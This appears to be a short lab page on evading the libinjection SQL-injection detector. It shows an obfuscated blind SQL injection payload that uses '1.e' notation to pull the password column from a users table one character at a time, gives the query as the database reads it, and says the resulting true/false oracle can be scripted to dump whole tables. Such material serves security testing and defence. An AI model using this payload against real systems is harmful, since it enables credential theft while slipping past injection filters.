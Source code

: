 # SQL Syntax Lab

Here is the general syntax necessary to confuse libinjection. With this SQL syntax, we are targeting the field `password` from the table `users`. The function substring is used to extract one character at the time and comparing it to an ascii value (`70` in the example).


## Payload

=== ":octicons-check-circle-fill-16: Obfuscated query"

- With the `1.e` notation expression that are ignored by the DBMS.

```sql
    1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
 ```

=== ":octicons-skip-16: Actual query"

-  This is how the DBMS will interpret 

```sql
    (ascii (substring((select password from users limit 1,1) ,1 ,1 ))) = 70 or'1'='2 
```

## Scripting

Once you have working request that is producing an oracle (binary response based on the matching content). It is possible to script an attack to extract the complete content of any database tables.

